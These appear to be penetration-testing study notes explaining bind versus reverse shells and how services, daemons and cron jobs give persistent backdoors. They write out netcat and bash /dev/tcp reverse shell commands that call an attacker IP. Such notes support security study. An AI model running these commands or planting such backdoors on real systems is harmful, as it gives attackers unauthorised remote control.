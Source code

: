 You can now issue Bash commands to the target machine. This is useful in enabling persistence, as it can function as a backdoor into the target system. The problem with bind shells is that many firewalls will filter incoming traffic on ports that don't meet the pre-configured allowed list, so you may be unable to establish a connection.

Likewise, if the target is behind Network Address Translation (NAT) and you're connecting from an external network, you may not be able to reach the target unless the NAT device is forwarding the specific bound port to the target machine.

A ***reverse shell*** is established when the target machine communicates with an attack machine that is listening on a specific port. First, you start the listener on the attack machine:

`nc -lp 12345`

Then, on the target machine, you'd start the connection:

`nc 192.168.1.10 12345 –e /bin/sh`

The attack machine's listener will accept the incoming connection and open a shell onto the target system. Reverse shells are typically more effective as backdoors because they bypass the aforementioned problems with bind shells. The attacker has more control over their own environment, and is less likely to be obstructed by port filtering or NAT.

In addition, you can create a reverse shell from the target system using a wide array of tools other than Netcat, including Bash, PowerShell, Python, Ruby, PHP, Perl, Telnet, and many more.

For example, if the target system is a Linux machine without Netcat, use Bash to connect to a listener:

`bash -i >& /dev/tcp/192.168.1.10/12345 0>&1`

![[Pasted image 20240620140930.png]]
*A Bind Shell vs. a Reverse Shell*

### Comparing Services and Daemons
---
In the Windows world, a service is any program that runs in the background without directly interfering with the current user's desktop session. This essentially makes services a type of non-interactive process.

In the Unix-like world, a daemon is the closest equivalent to a Windows service. Daemons run in the background but are not attached to any terminal; therefore, they can continue to run on the system even when a terminal is closed.

Many services and daemons automatically start when the system boots, but they can also be activated by certain events or, less commonly, started and stopped manually by the user.

When it comes to PenTesting, services and daemons offer similar opportunities as scheduled tasks, but differ in terms of how they are used as vectors. For example, you might write a ***cron job (A scheduled task that is managed by the Linux cron daemon)*** to execute a Netcat reverse shell command on a Linux target every so often. This, as you've seen, gives you a persistent backdoor into the target system.

<mark style="background: #FFF3A3A6;">However, if you, instead, install a remote access daemon on the target, you could shell into the target at any time and even regain that shell immediately after the system has rebooted.</mark> <mark style="background: #FF5582A6;">Whereas a cron job is limited to a maximum frequency of one minute, a daemon is always active and available for use. Also, it's easier for a daemon to cache its state and sustain long sessions.</mark>
